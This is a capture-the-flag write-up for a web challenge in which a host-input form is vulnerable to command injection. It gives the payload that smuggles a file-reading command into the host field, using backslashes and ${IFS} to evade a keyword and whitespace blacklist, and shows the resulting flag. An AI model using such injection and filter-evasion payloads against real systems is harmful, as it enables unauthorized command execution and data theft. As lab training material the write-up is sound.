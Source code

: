 # Bing
> `-`

## About the Challenge
We have been given a website that contains a form and we can input a host there

![preview_1](images/preview_1.png)

And then I tried to input 127.0.0.1 and here was the output

![preview_2](images/preview_2.png)

## How to Solve?
We need to exploit the website using `Command Injection` vulnerability in order to read the flag. Here is the payload I used to read the flag

```
127.0.0.1;c\a\t${IFS}/f\lag.txt${IFS}|base64
```

Because some of the commands are blacklisted by the website (Like `cat` or `ls`), we can trick it with `/` character.  And because whitespace is also blacklisted by the website we can use `${IFS}`

![flag](images/flag.png)

```
dead{okokok!!!_th1s_flAg_f0R_Y0U}
```